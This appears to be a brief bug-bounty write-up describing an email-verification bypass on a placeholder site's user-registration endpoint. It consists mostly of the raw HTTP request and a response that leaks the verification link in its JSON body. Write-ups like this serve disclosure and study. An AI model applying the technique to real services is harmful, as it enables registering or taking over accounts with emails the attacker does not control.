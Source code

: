 # Email-Bypass



There were three options for login into the account;

    Facebook Login
    Google Login
    Email and Password Login
    
    
    
# Request:


POST /registerNewUser HTTP/1.1

Host: www.site.com

User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; rv:61.0) Gecko/20100101 Firefox/61.0

Accept: application/json, text/javascript, */*; q=0.01

Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate

Referer: https://www.site.comlogin

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 171

Cookie: foo

DNT: 1 Connection: close givenName=test&familyName=test&gender=0&email=test@gmail.com&tz=20&agreePrivAndTC=true&password=value&action=send-verification-web

I Tried to  Add Such test@gmail.com as email  i get shocked by  viewing the Repose because it leaking the verification link.

# Response:


HTTP/1.1 200 OK Server: nginx

Date: Thu, 28 Jun 2018 06:47:49 GMT

Content-Type: application/json; charset=utf-8

Content-Length: 54 Connection: close X-Powered-By: Express Cache-Control: private, no-cache, no-store, must-revalidate Expires: -1 Pragma: no-cache

Access-Control-Allow-Origin: *

X-Frame-Options: SAMEORIGIN

ETag: W/”36-zOgjh98O1kXD4SR66HqUdT6UxdM”

Strict-Transport-Security: max-age=63072000; includeSubdomains; preload

{“key”:”the verification link”,”success”:1}

After seeing the  verification link my feeling was.

